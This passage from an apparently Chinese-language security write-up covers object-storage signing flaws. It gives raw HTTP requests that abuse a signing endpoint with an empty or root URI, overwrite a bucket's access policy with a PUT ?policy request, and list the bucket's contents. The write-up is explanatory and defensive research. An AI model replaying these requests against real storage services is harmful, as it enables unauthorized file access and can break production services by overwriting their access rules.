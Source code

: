   *   *   *   *   *   *   * 

    
    
    GET /get_put_sgin?uri=/ HTTP/1.1Host: 127.0.0.1:5000Accept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)Connection: close  
    

    获取根目录来进行PUT ACL的写入操作

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210930164316.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    PUT /?policy&sgin HTTP/1.1Host: ceshicos-1253712656.cos.ap-nanjing.myqcloud.comAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)Connection: closeContent-Type:application/jsonContent-Length: 381  
    {"Statement": [  {    "Principal": {      "qcs": [        "qcs::cam::uin/UIN:uin/UIN"      ]    },    "Effect": "allow",    "Action": [      "name/cos:GetBucket",      "name/cos:GetObject",      "name/cos:PutObject"    ],    "Resource": [      "qcs::cos:ap-nanjing:uid/1253712656:ceshicos-1253712656/*"    ]  }],"version": "2.0"}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210930164317.png)  
    来对根目录进行ACL的写入，但是要注意的是 **PUT bucket写入是一个覆盖操作** **，会覆盖原有业务的ACL导致业务无此bucket权限，导致业务中断** 。所以如果发现此问题不要贸然测试。  
  
 **下载时的安全问题**

  *  **读取对象存储元信息**  

    对象存储为什么可以保证存储文件的安全？在私有读的存储桶里，读取任意文件都需要授权签名，签名过期后就无法读取，这样就会导致一张图片必须每次读的时候都去请求权限，在请求权限时，业务最常用的接口就是：  

  *   *   *   *   *   *   *   * 

    
    
    GET /download?uri=this_is_mine HTTP/1.1Host: 127.0.0.1:5000Accept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)Connection: close  
      
    

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210930164318.png)

    服务端会返回签名后的链接给我们访问文件，但是如果我们的uri设置为空会怎么样呢？  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210930164319.png)  
    很明显，对我们的根目录做了签名，访问的话，我们就可以获取对象存储的管理节点信息：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210930164320.png)

使用对应key即可获取任意文件（我这里是个空的存储桶）。

  
 **其他**  
    除了以上所说的，其他的特性也可能会存在很多安全问题，例如

  * 镜像回源 SSRF
